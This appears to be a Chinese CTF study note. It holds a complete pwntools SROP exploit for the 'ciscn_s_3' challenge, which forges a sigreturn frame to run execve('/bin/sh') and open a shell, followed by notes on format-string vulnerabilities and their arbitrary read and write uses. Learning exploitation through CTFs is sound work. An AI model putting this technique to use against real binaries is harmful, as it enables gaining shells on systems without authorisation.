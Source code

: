 # SROP

`Sigreturn`则是一种特殊的系统调用，它将程序的执行状态恢复到之前通过信号处理函数保存的状态，我们可以恶意构造`Sigreturn`函数进行篡改寄存器和栈，以达到getshell目的

系统调用号查看路径`/usr/include/x86_64-linux-gnu/asm/unistd_64.h`或者`unistd_32.h`

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p = remote('node5.buuoj.cn', 27324)
# p=process("./ciscn_s_3")
elf = ELF('./ciscn_s_3')

gadget = 0x4004DA
syscall = 0x400517
vuln = 0x4004ED
p.send(b'a' * 0x10 + p64(vuln))
binsh = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 0x118

frame = SigreturnFrame()
frame.rax = 59
frame.rdi = binsh
frame.rip = syscall
frame.rsi = 0

payload = b"/bin/sh\x00" * 2 + p64(gadget) + p64(syscall) + bytes(frame)
p.send(payload)
p.interactive()
```

# 格式化字符串漏洞

## 前置知识

导致有格式化字符串漏洞的函数有

- printf系列函数
  - printf()
  - fprintf()
  - sprintf()
  - snprintf()
- syslog()
- vprintf系列函数
- 错误日志函数
- 远程日志记录器

首先会读取到一段字符串，然后在输出函数中，没有正确的进行格式化字符串处理，导致可以读取内存的数据，写入数据等字符串的输入权交给用户就会有问题了

格式化字符串可以用来

- 读取任意地址
- 任意地址写：改返回地址，改got表，改one_gadget，改malloc_hook，改iofile

